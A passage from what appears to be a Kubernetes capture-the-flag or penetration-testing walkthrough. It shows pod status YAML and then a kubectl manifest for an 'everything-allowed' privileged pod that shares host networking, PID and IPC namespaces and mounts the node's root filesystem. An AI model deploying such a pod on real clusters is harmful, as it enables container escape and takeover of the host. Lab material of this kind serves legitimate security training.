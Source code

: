 ```yaml
75     type: Ready
76   - lastProbeTime: null
77     lastTransitionTime: "2023-05-18T11:47:57Z"
78     status: "True"
79     type: ContainersReady
80   - lastProbeTime: null
81     lastTransitionTime: "2023-05-18T11:47:55Z"
82     status: "True"
83     type: PodScheduled
84   containerStatuses:
85   - containerID: containerd://ee5f262614e65916fe2312e3c28a0e99ce2dffe2144520924f48d6b8bd628a68
86     image: registry.merch.codes:5000/tools:latest
87     imageID: registry.merch.codes:5000/tools@sha256:3efbfd3156722bc0288dd83afee2da3acea806832cd55c1e163fe1961ec6977d
88     lastState: {}
89     name: tools
90     ready: true
91     restartCount: 0
92     started: true
93     state:
94       running:
95         startedAt: "2023-05-18T11:47:56Z"
96   hostIP: 10.3.3.10
97   phase: Running
98   podIP: 10.42.1.206
99   podIPs:
100   - ip: 10.42.1.206
101   qosClass: BestEffort
102   startTime: "2023-05-18T11:47:55Z"
```

It is pulling an image from `registry.merch.codes:5000/tools:latest` (line 86). Let's use that for our new malicious Pod. 

7. Enter the following: 

```bash
kubectl apply -f- <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: registry.merch.codes:5000/tools:latest
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
```